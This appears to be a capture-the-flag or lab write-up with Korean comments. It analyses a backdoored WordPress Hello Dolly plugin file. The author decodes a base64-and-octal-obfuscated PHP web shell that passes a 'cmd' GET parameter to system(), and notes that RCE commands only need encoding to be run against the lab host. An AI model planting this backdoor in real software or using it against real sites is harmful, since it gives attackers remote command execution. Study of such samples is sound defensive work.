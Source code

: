```
		float: right;
		padding: 5px 10px;
		margin: 0;
		font-size: 12px;
		line-height: 1.6666;
	}
	.rtl #dolly {
		float: left;
	}
	.block-editor-page #dolly {
		display: none;
	}
	@media screen and (max-width: 782px) {
		#dolly,
		.rtl #dolly {
			float: none;
			padding-left: 0;
			padding-right: 0;
		}
	}
	</style>
	";
}

add_action( 'admin_head', 'dolly_css' );

```

# base64 decode

# IP: 10.10.97.230

echo -n "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | tr -d '=' | base64 -d

if (isset($_GET["\143\155\x64"])) { system($\_GET["\143\x6d\144"]); }

# printf 로 ascii 코드 디코딩 -> cmd 확인

┌──(root㉿docker-desktop)-[/]
└─# printf "\143\x6d\144\n"
cmd

┌──(root㉿docker-desktop)-[/]
└─# printf "\143\155\x64"
cmd

# base64로 인코딩한 것을 디코딩하여 자바스크립트를 실행 -> js는 php cmd 를 실행 -> 그렇다면 악성 RCE 명령어를 base64 로 encode 만 하면 될 것으로 보임
